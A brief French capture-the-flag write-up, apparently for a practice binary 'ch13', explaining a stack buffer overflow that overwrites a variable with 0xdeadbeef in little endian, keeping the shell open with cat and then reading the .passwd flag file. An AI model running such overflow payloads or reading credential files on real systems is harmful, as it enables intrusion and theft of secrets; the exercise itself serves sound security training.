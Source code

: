 
40 -> taille du buffer

```bash
(python -c 'print("A" * 40 + "\xef\xbe\xad\xde")';cat) | ./ch13
```
- Little endian

Le "cat" permet d'interrompre le code pour ne pas que le shell se ferme.

Une fois dans le shell : cat .passwd